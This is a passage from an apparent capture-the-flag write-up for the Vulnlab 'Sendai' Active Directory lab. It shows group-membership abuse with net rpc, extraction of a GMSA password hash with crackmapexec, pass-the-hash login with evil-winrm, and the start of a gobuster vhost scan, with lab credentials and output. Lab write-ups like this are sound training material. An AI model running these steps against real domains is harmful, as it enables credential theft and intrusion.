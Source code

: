 ```
└─$ net rpc group addmem "admsvc" "Elliot.Yates" -U sendai.vl/"Elliot.Yates"%"Password123@" -S dc.sendai.vl
```

We can then verify that the change has been made with the same tool.

```
└─$ net rpc group members "admsvc" -U "sendai.vl"/"Elliot.Yates"%"Password123@" -S dc.sendai.vl
SENDAI\websvc
SENDAI\Norman.Baxter
SENDAI\Elliot.Yates
```

As you can see, we were added to the group successfully. Looking into these group members domain privileges, we can see that users within this group has a specific outbound object control as well.

![](/images/vulnlab/sendai-vl/e.png)

Users within the `admsvc` group have the `ReadGMSAPassword` over the `MGTSVC$` account. This privilege allows us to view the Group-Managed Service Account (GMSA) password of the support account, which will return to us the NT hash of the account.

Crackmapexec has a handle for this, so we can easily do it with `Elliot.Yates` credentials.

```
└─$ crackmapexec ldap 10.10.98.227 -u 'Elliot.Yates' -p 'Password123@' --gmsa           
SMB         10.10.98.227    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
LDAP        10.10.98.227    636    DC               [+] sendai.vl\Elliot.Yates:Password123@ 
LDAP        10.10.98.227    636    DC               [*] Getting GMSA Passwords
LDAP        10.10.98.227    636    DC               Account: mgtsvc$              NTLM: 52ece1a9[...snip...]a44c1a20
```

I verified that the `MGTSVC$` account has WinRM access through Bloodhound, as you can see that it is a part of the `Remote Management Users` group.

```
└─$ evil-winrm --ip 10.10.98.227 -u 'mgtsvc$' -H '52ece[...snip...]4c1a20'
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> whoami
sendai\mgtsvc$
```

This means we have successfully completed the first half of the machine. The first user flag is within `C:\`.

# MGTSVC Method #2 - WebSVC

This second method I discovered, credit goes out to Yeeb for this specific attack path.

If we run a `gobuster` scan against the HTTP service, you'll notice that an interesting endpoint that we can't see on the main HTTP page of the domain.

```
└─$ gobuster vhost --url https://sendai.vl -t 50 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -k --exclude-length 334 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:              https://sendai.vl
[+] Method:           GET
[+] Threads:          50
[+] Wordlist:         /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:       gobuster/3.6
[+] Timeout:          10s
[+] Append Domain:    true
```